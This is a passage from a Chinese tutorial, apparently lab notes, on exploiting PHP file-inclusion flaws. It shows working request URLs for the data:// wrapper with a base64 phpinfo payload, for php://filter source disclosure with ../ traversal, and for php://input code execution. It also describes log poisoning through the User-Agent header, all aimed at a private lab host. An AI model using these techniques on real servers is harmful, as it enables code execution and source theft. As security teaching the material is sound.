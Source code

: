 #### 2.4.2.3. data利用方式

从php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是php代码，就会执行任意代码。

这里需要注意若使用data的话需要allow_url_include 和allow_url_fopen为on。

```
URL：http://192.168.10.150/1.php/?name=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
"PD9waHAgcGhwaW5mbygpPz4="是通过base64加密的\<?php phpinfo();?\>
```

![image-20230413154223893](https://s2.loli.net/2023/04/13/NLwThSPkaDlXzxH.png)

#### 2.4.2.4. php利用方式

1）php://filter

php://filter 可以在执行代码前将代码换个方式读取出来，只是读取，不需要开启，读取源代码并进行 base64 编码输出，不然会直接当做 php 代码执行就看不到源代码内容了

```
用法：php://filter/read=convert.base64-encode/resource=要读取的文件
URL：http://192.168.10.150/1.php/?name=php://filter/read=convert.base64-encode/resource=2.php
解密：<?php phpinfo();?>
```

![image-20230413154246200](https://s2.loli.net/2023/04/13/M3HnClYe2GRVdLu.png)

当然里不单单只能读取当前目录下的文件，这里就演示一下另外一种读取方式，我将文件放在上一级目录中，通过php进行读取。

```
URL：http://192.168.10.150/1.php/?name=php://filter/read=convert.base64-encode/resource=../2.php
```

仔细看URL连接就能看出来，这里使用了之前提到的相对路径读取。

![image-20230413154317005](https://s2.loli.net/2023/04/13/8SbzA1IFGTnPgyo.png)

2.  php://input

php://input主要是用来执行php代码的，不过php://input需要以POST提交，这里我们先在URL中添加php://input然后抓包把GET修改为POST，最后在数据包的最后输入想要执行的代码就可以实现代码执行。

```
URL：http://192.168.10.150/1.php/?name=php://input
```

![image-20230413154330793](https://s2.loli.net/2023/04/13/skice4g7WT3mdrE.png)

![image-20230413154342945](https://s2.loli.net/2023/04/13/cuK8qT1JSCgBNvU.png)

## 2.5. 文件包含日志读取

日志会记录客户端请求及服务器响应的信息，访问http://www.xx.com/\<?php phpinfo(); ?\>时，\<?php phpinfo(); ?\>也会被记录在日志里，也可以插入到User-Agent，但是请求的信息有可能被url编码之后记录日志，这里可以通过burp来发送请求包来防止被编码，通过相对路径找到日志文件，利用包含漏洞执行。

### 2.5.1. 各类日志存在位置
